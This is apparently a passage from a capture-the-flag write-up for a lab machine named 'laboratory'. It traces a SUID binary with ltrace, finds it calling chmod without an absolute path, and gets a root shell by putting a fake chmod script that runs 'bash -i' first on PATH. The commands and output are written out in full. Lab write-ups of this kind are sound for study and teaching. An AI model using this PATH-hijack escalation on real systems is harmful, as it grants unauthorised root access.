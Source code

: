 Look at the SUID binaries
![](Screen-shot/SUID%20docker-security.png)

The binary is owned by `dexter` and we can executed as `root` 

### ltrace
```bash
dexter@laboratory:~$ ltrace /usr/local/bin/docker-security
setuid(0)                                                                                                            = -1
setgid(0)                                                                                                            = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 256
+++ exited (status 0) +++
```

We see that once we are root, we can hijack the `chmod` binary since it doesn't use the absolute path

create a `chmod` executable which essentially start a `bash` shell
```bash
#!/bin/bash
echo "chmod hijack"
bash -i
```

```bash
dexter@laboratory:/dev/shm$ vi chmod
dexter@laboratory:/dev/shm$ chmod +x chmod 
dexter@laboratory:/dev/shm$ export PATH=$(pwd):$PATH
dexter@laboratory:/dev/shm$ /usr/local/bin/docker-security
chmod hijack
root@laboratory:/dev/shm# cat chmod 

```

![](Screen-shot/Gain%20root.png)